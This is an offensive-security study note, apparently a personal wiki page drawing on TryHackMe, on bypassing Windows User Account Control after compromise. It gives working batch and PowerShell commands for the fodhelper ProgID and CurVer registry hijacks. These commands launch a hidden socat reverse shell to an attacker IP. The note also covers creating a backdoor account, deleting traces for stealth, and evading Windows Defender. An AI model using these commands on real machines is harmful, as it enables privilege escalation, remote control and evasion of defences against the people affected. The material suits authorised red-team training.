 # Bypassing Windows User Account Control

For the fundementals of UAC see [[Windows-User-Account-Control]]

When creating a backdoor post exploit you may see this error:
```powershell
net user backdoor Backd00r /add
System error 5 has occurred.

Access is denied.
```

`whoami /groups` will show that the session is running in medium Integrity Levels, UAC prevents even Administrators from performing administrative tasks with filtered token.

## GUI Based Bypasses

#### msconfig

From the `Search -> Run`  open `msconfig`, using the [[Process-Hacker]] if it runs with High IL: navigate to the `Tools` tab and select `Command Prompt` 

#### azman.msc 
From the `Search -> Run`  open, using the [[Process-Hacker]] if it runs with High IL: Click the tab `Help -> Help Topics -> Right-Click -> View-Source`, which will open notepad `File -> Open C:\Windows\System32\cmd.exe`, but then when you find it in the file listing `Right-Click -> Open`

## UAC AutoElevate Processes

Some executable can auto-elevate to high IL - most of Control Panel's functionality and some native executables. Requirements for auto-elevation:
1. The executable must be signed by Windows Publisher
2. The executable must be contained in trusted directory, like %SystemRoot%/System32/ or %ProgramFiles%/

Additional requirements depending on application:
	1. Executable files must declare the autoElevate element inside their manifests - use [[Sysinternals-Sigcheck]] to check manifest.
	2. mmc.exe will auto elevate depending on the .msc snap-in taht the user requests - most Windows .msc files will auto-elevate.
	3. Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. [[UAC-AutoElevate-List]]
	4. COM objects can request auto-elevation by configuring registry keys [Docs](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)

#### fodhelper
fodhelper is default windows executable in charge of mangaing Windows optional features, infmaously used in [Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit). Fodhelper can auto elevate when using default settings and can be exploited without GUI access. 

Create a association for ProgID for a file in current users HKCU, allow us to overrride the default system-wide association and cointrol the `command` used to open that file. To elaborate, the Programming ID(ProgID) key in the registry is associatated with the application. Windows prioritises the HKCU over the HKLM key. The command used to specify the subkey located within the registry tree  `shell/open/command`. 

```batch
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\<reverse-shell.exe> <reverse-shell-commands>""
reg add %REG_KEY% /v "DelegateExecute" /d "" /f 
reg add %REG_KEY% /d %CMD% /f
```

Delete for stealth:
```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

Query to check:
```batch
reg query %REG_KEY% /v ""
```

## Windows Defender
Same as the above, but the final line is:
```batch
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

Warning this may still fail. It succeeds base whether the payload or AV executes first. It is still detected by Windows Defender. The improved version is from :[v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)

Instead of \\Shell\\Open\\command, we use `CurVer` entry under a progID registry key, which commonly used when you have multiple instances of an application with different version running on the same system, `CurVer` points to a default version.

Modified [v3ded](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses) version from Tryhackme.
```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

# create new progID with name .pwn  
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force

# points to CrVer entry of ms-settings
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

It is more likely to evade Windows Defender as name of the progID that holds our payload is entirely arbitrary. Instead of Windows Defender matching a single indicator, the pointing is transitive and therefore evasive as it encapsulated in the act of point, data-wise. But AV detection methods are implemented strictly against the published exploit so: 
```batch
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```


Clean up:
```batch
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```



## Reference
[COM Elevation Moniker Documentation](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)
[Glupteba Malware](https://www.cybereason.com/blog/research/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit)
[v3ded Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
